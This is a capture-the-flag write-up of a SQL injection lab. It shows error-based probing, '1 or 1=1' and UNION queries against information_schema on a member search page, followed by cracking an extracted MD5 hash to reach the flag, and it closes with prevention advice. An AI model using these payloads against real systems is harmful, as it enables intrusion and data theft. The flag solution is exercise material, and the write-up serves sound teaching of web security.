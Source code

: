 # Description

Visiting the 'member' page, it display a search field that search for members by id.

Trying a basic sql injection test, putting a single quite in the search field a submit.

We got an sql syntax error:
`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`

Then trying `1 or 1=1` will gives all members in the database:

```html
ID: 1 or 1=1 
First name: one
Surname : me

ID: 1 or 1=1 
First name: two
Surname : me

ID: 1 or 1=1 
First name: three
Surname : me

ID: 1 or 1=1 
First name: Flag
Surname : GetThe
```

# Attack

Now let's try to determine the SQL request 

As it seems from the last input the SQL request only retreive 2 columns so we will need to inject those columns with data from database.

Now let's look for all the databases names in the database using this sql injection.

    0 UNION select table_name,column_name from information_schema.columns

As you will see below we got the users database informations

```html
ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : user_id

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : first_name

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : last_name

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : town

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : country

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : planet

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : Commentaire

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: users
Surname : countersign
```

Now we will try to see what all users has on the `Commnetaire` Column, It may be something interesting.

    0 UNION select concat(first_name, last_name),concat(user_id,town,country,0,countersign,Commentaire) from users

```html
ID:   0 UNION select concat(first_name, last_name),concat(user_id,town,country,0,countersign,Commentaire) from users 
First name: FlagGetThe
Surname : 5424205ff9d0165b4f92b14994e5c685cdce28Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```
As you can see the user Flag Has this string result `5ff9d0165b4f92b14994e5c685cdce28 Decrypt this password -> then lower all the char. Sh256 on it and it's good !`

Now decripting it with md5: 5ff9d0165b4f92b14994e5c685cdce28 : FortyTwo

fortytwo (sha256): 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Prevention

To prevent SQL injection vulnerabilities, follow these measures:

- Use prepared statements with parameterized queries to separate SQL code from user input.
- Implement input validation and sanitize user inputs to prevent malicious input.
- Employ a Web Application Firewall (WAF) to detect and block malicious SQL injection attempts.
